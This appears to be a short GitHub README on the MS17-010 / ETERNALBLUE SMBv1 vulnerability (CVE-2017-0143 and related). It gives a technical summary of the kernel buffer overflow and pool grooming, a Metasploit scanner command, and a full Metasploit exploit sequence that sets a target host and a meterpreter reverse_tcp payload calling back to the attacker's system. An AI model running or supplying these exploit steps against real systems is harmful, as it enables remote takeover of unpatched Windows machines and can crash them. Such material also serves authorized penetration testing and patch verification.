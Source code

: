 # CVE-2017-0143

CVE-2017-0143 | MS17-010

- MS17-010
- CVE-2017-0143
- CVE-2017-0144
- CVE-2017-0145
- CVE-2017-0146
- CVE-2017-0148
- CVE-2017-0147

This module is a port of the Equation Group ETERNALBLUE exploit, part of the FuzzBunch toolkit released by Shadow Brokers. There is a buffer overflow memmove operation in Srv!SrvOs2FeaToNt. The size is calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error where a DWORD is subtracted into a WORD. The kernel pool is groomed so that overflow is well laid-out to overwrite an SMBv1 buffer. Actual RIP hijack is later completed in srvnet!SrvNetWskReceiveComplete.

This exploit, like the original may not trigger 100% of the time, and should be run continuously until triggered. It seems like the pool will get hot streaks and need a cool down period before the shells rain in again. The module will attempt to use Anonymous login, by default, to authenticate to perform the exploit. If the user supplies credentials in the SMBUser, SMBPass, and SMBDomain options it will use those instead. On some systems, this module may cause system instability and crashes, such as a BSOD or a reboot. This may be more likely with some payloads.

## Scanner

```bash
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

## Exploit

```bash
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

## References

- [Docs.microsoft.com](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
- [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010)
